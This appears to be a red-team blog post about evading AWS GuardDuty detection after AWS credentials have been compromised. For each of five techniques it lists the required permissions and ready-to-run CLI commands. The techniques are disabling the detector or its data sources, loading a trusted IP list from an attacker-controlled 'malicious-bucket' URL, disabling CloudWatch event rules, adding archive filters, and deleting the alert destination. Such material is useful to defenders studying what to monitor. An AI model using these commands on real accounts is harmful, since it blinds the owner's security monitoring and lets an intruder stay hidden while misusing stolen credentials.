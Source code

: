 ```yaml
---
layout: post
title: AWS Guard-OffDuty
---
```


Let's assume that we have found and  successfully validated some AWS credentials during an engagement. Then it might be a good idea to modify the threat detection services like GuardDuty to reduce the likelihood of triggering an alert. Therefore we need to modify the GuardDuty configuration to stay cloaked. Deleting or modifying key attributes of GuardDuty might have a less likely chance to raise alerts. The actions we can do depend on the compromised permissions available. The GuardDuty architecture and the presence of higher level controls like [Service Control Policies](https://docs.aws.amazon.com/organizations/latest/userguide/orgs_manage_policies_scps.html) can give us options. 

<p align="center">
<img width=300 src="/images/mr-bean-guard.gif">
</p>


GuardDuty itself uses a delegated admin or invite model but features like detector configurations and IP Trust lists are usually centrally managed. That pivot point can be used, but usually can only be modified in the GuardDuty administrator account. If this pattern isn't used, these features can be modified in the account that GuardDuty is running in. 

Let's check our options:

## Option1 - Patching the Detector
We can modify an existing GuardDuty detector in the account with the goal to remove log sources or lessen its effectiveness.

Configuration changes may include a combination of:

- Disabling the detector  
- Removing Kubernetes and S3 as Data Sources. This removes all available [S3 Protection](https://docs.aws.amazon.com/guardduty/latest/ug/guardduty_finding-types-s3.html) and/or [Kubernetes alerts](https://docs.aws.amazon.com/guardduty/latest/ug/guardduty_finding-types-kubernetes.html)  
- Increasing the event update frequency to 6 hours instead of the casual 15 minutes. This give some more time to dig around in the account and stay cloaked. To manage this we have to check the Required permissions to execute:

* `guardduty:ListDetectors`
* `guardduty:UpdateDetector`

Tiny cheat sheet of the CLI commands:

```bash
# Disabling the detector
aws guardduty update-detector \
    --detector-id 12abc34d567e8fa901bc2d34eexample \
    --no-enable 

# Removing s3 as a log source
aws guardduty update-detector \
    --detector-id 12abc34d567e8fa901bc2d34eexample \
    --data-sources S3Logs={Enable=false}

# Increase finding update time to 6 hours
aws guardduty update-detector \
    --detector-id 12abc34d567e8fa901bc2d34eexample \
    --finding-publishing-frequency SIX_HOURS
```

---
## Option2 - Patching Trusted IP Lists
We could create or update GuardDuty's [Trusted IP list](https://docs.aws.amazon.com/guardduty/latest/ug/guardduty_upload-lists.html) - including their own IP on the list. Any IPs in a trusted IP list will not have any Cloudtrail or VPC flow log alerts raised against them.

*DNS findings are exempt from the Trusted IP list.*

**Required permissions to execute:**

* `guardduty:ListDetectors`
* `guardduty:ListIPSet`
* `iam:PutRolePolicy`
* `guardduty:CreateIPSet (can be used to create a new list)`
* `guardduty:UpdateIPSet (update an existing list)`

Depending on the level of stealth required the file can be uploaded to an S3 bucket:
- Either in the target account
- or an account controlled by the attacker

Tiny cheat sheet of the CLI commands:

```bash
aws guardduty update-ip-set \
    --detector-id 12abc34d567e8fa901bc2d34eexample \
    --ip-set-id 24adjigdk34290840348exampleiplist \
    --location https://malicious-bucket.s3-us-east-1.amazonaws.com/customiplist.csv \
    --activate
```

## Option 3 - Modify Cloudwatch events rule
GuardDuty populates its findings to Cloudwatch-Events every 5 minutes. Modifying the Event pattern or Targets for an event may reduce GuardDuty's ability to alert and trigger auto-remediation of a findings. Especially where the remediation is triggered in a member account as GuardDuty administrator protections do not extend to the Cloudwatch events in one of the member accounts.

But be aware that:

> In a delegated or invitational admin GuardDuty architecture, cloudwatch events will still be created in the admin account.

**Required permissions to execute:**

* `gevent:ListRules`
* `gevent:ListTargetsByRule`
* `gevent:PutRule`
* `gevent:RemoveTargets`

Tiny cheat sheet of the CLI commands:
```bash
# Disable GuardDuty Cloudwatch Event
aws events put-rule --name guardduty-event \
    --event-pattern "{\"source\":[\"aws.guardduty\"]}" \
    --state DISABLED

# Modify Event Pattern
aws events put-rule --name guardduty-event \
    --event-pattern '{"source": ["aws.somethingthatdoesntexist"]}'

# Remove Event Targets
aws events remove-targets \ 
    --name guardduty-event \
    --ids "GuardDutyTarget"
```

---
## Option 4 - Create Supression Rules
Newly create GuardDuty findings can be automatically archived via [Suppression Rules](https://docs.aws.amazon.com/guardduty/latest/ug/findings_suppression-rule.html). We can also use [filters](https://docs.aws.amazon.com/guardduty/latest/ug/guardduty_filter-findings.html) to automatically archive findings before they are fresh generated. 

**Required permissions to execute:**
* `guardduty:CreateFilter`

Tiny cheat sheet of the CLI commands:

```bash
aws  guardduty create-filter --action ARCHIVE \
--detector-id 123456 \
--name fancyfiltername \
--finding-criteria file://criteria.json
```

Filters can be created using the [CreateFilter API](https://docs.aws.amazon.com/guardduty/latest/APIReference/API_CreateFilter.html).

---
## Option 5 - Delete Publishing Destination
We could disable alerting simply by [deleting the destination](https://docs.aws.amazon.com/cli/latest/reference/guardduty/delete-publishing-destination.html) of alerts.

**Required permissions to execute:**

* `guardduty:DeletePublishingDestination`

Tiny cheat sheet of the CLI commands:

```bash
aws guardduty delete-publishing-destination \
    --detector-id abc123 \
    --destination-id def456
```
